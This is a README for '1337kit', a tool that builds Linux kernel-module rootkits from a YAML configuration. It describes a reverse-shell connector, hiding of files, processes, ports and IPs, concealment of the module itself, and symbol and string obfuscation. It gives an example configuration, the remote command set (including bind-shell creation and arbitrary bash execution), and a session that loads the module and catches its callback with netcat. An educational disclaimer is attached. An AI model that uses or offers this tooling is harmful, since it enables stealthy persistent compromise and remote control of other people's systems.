 # 1337kit - LKM Rootkit Builder

![1337kit](images/1337kit.png)

## About project

1337kit is 64-bit LKM Rootkit builder based on yaml prescription

Fully tested on: Linux 5.11.0-34-generic 20.04.1-Ubuntu x86_64 x86_64 x86_64 GNU/Linux

### DISCLAIMER: FOR EDUCATIONAL AND INFORMATIONAL PURPOSES ONLY

This project is for malware analysts and for creator of CTF or cyber security exercises, with this builder you can build your custom rootkit for your exercise

**I do not take any responsibility for usage of this project**

### Rootkit Features

* RevShell based connector
* Hiding dents (files, files prefixes, process id)
* Hiding connections based on Ports in TCP Connection
* Hiding connections based on IPv4 in TCP Connection
* Spawning scripts to user-space
* Hiding module from module list

### Builder Features

* Files and functions obfuscation
* Strings encryption
* Verbose building

## Installation

Builder requirements:

```sh
$ pip3 install -r requirements.txt
```
Install requirements for building LKM:

```sh
sudo apt-get install build-essential linux-headers-$(uname -r)
```
## Usage

You have to create your yaml prescription for custom rootkit,
Example of full prescription (every option can be omitted):

```yaml
hideme: true
connector:
    ip: "127.0.0.1"
    port: "8080"
hide_dent: # Here you can put all your files, directories and process id you want to hide from user
    - "91746"
    - "1337test_"
hide_tcp_port:
    - "8080"
    - "1337"
hide_tcp_ip:
    - "127.0.0.1"
    - "8.8.8.8"
hide_udp_port:
    - "8080"
    - "1337"
hide_udp_ip:
    - "127.0.0.1"
    - "8.8.8.8"
shells:
    - "sleep 1000"
```

After you create your yaml just run the builder.py

```sh
$ python3 builder.py --help
usage: builder.py [-h] -c CONFIG [-v] [-o] [-s]

Generate rootkit from yaml prescription

optional arguments:
  -h, --help            show this help message and exit
  -c CONFIG, --config CONFIG
                        Yaml prescription file
  -v, --verbose         Debug Mode
  -o, --obfuscate_files
                        Enable rootkit symbols obfuscation
  -s, --obfuscate_strings
                        Enable rootkit strings obfuscation
```

![builder](images/builder.png)

And rootkit will be created.

another way to execute your hiding or shell script is connector, if you enable your connector, rev-sell connection is created to your defined IP and Port, after this it will try open connection every x second. After connection is opened multiple commands can be send:

* HIDEME
* SHOWME
* HIDE_DENT
* SHOW_HIDDEN_DENT
* HIDE_TCP_PORT
* SHOW_HIDDEN_TCP_PORT
* HIDE_TCP_IP
* SHOW_HIDDEN_TCP_IP
* HIDE_UDP_PORT
* SHOW_HIDDEN_UDP_PORT
* HIDE_UDP_IP
* SHOW_HIDDEN_UDP_IP
* BINDSHELL_CREATE
* RUN_CUSTOM_BASH

## Additional Information

tcp_seq_show.c file in hooker is pretty much same as udp_seq_show, but i split it if anyone need some own modification for either of protocols

## Future Features

* TCP and UDP IPv6 hiding
* AES Encryption support

### Examples

```sh
$ python3 builder.py --config testfiles/config.yml
$ sudo insmod project.ko
$ nc -lvnp 1337
 Listening on 0.0.0.0 8080
 Connection received on 127.0.0.1 39040
 RUN_CUSTOM_BASH sleep 1000
```

![example](images/example.jpeg)
